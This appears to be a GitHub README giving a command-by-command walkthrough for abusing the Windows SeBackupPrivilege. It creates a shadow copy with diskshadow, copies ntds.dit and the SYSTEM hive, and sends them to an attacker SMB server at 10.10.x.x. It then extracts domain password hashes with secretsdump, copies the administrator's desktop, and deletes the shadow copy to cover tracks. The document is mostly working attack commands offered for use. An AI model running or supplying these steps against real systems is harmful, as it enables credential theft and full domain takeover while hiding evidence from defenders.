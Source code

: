 # SeBackupPrivilege

If you've SeBackupPrivilege. We can use that privilege to read and get any file from the target machine. If we attack SAM, SYSTEM or ntds.dit some important files we can beacome SYSTEM.


# Exploitation

First upload [SeBackupPrivilegeCmdLets.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeCmdLets.dll) and [SeBackupPrivilegeUtils.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeUtils.dll) to target machine.

### Import he DLLs
```markdown
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
```

### Create a vss.dsh file
```markdown
set context persistent nowriters
set metadata c:\\programdata\\test.cab        
set verbose on
add volume c: alias test
create
expose %test% z:
```
NOTE: c:\\programdata is the writeable path where you i have upload dll and creating a test.cab

### Change the file format
```markdown
unix2dos vss.dsh
```

upload the file on C:\\programdata 

### Use diskshadow to explore the func of copy
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```

### Now you can copy any file 
Copy any file to present dir and then download it to your system.

We gonna get ntds.dit and system.
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit c:\\programdata\\ntds.dit
```
Now system file
```markdown
reg save HKLM\SYSTEM C:\\programdata\\SYSTEM
```
Now we can see that both ntds.dit and SYSTEM files are in our present dir.
You can also get other sensetive files like SAM, SYSTEM, SECURITY.

### Download these files using smb server.
```markdown
smbserver.py k4sth4 . -smb2support -username kt -password kt
net use \\10.10.x.x\k4sth4 /u:kt kt
```
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit \\10.10.x.x\k4sth4\ntds.dit
reg.exe save hklm\system \\10.10.x.x\system
```

### Now extract the hashes from ntds.dit with SYSTEM as key
```markdown
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

### We can also Dump the whole administrator dir into Temp
```markdown
robocopy /b C:\\users\\administrator\\desktop C:\\programdata\\temp
```
We get all the desktop files in temp dir.

## Now after doing this CleanUp is necessary

### cleanUp script vss.dsh
```markdown
set context persistent nowriters
set metadata c:\\programdata\\test.cab
set verbose on
delete shadows volume test
reset
```
```markdown
unix2dos vss.dsh
```

### upload and run
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```




